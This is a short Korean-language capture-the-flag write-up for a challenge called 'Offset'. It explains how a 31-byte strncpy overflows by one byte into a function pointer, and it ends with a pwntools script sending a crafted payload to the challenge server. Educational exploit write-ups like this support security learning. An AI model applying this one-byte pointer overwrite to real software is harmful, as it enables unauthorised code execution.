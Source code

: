 # Offset

![](1.PNG)    
입력한 값은 select_func 함수의 인자로 넘어가고, select_func 함수는 다음과 같은 동작을 한다.   
<br/>


Line 3,4 : char형 변수 dest와 함수 포인터 v3를 선언해준다.   
Line 6 : v3포인터 변수에 함수 two의 주소를 대입한다.   
Line 7 : strncpy함수를 호출에 인자로 받은 src를 0x1f만큼 dest에 복사해준다.   
Line 8~10 : dest의 값이 “one”일 경우 v3에 one함수의 주소를 대입해준다.   
<br/>

결국 v3에 들어가 있는 주소를 print_flag 함수의 주소로 바꿔주면 flag를 획득할 수 있다.   
<br/>

select_func 함수에서 strncpy로 31byte를 복사하고, gdb로 분석해보면 dest와 v3의 주소가 30byte 차이난다.   
따라서 v3에 들어있는 주소를 1byte 조작할 수 있다.   
<br/>

![](2.PNG)   
또한 two 함수와 print_flag 함수의 주소가 맨 뒤에 1byte만 다른것을 알 수 있다.   
<br/>

따라서 two 함수의 마지막 1byte를 print_flag 함수의 주소로 BOF 시키면 flag를 얻을 수 있다.
<br/>

```
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3007)

payload = ''
payload += '\x90'*30
payload += '\xd8'

p.sendline(payload)
p.interactive()
```
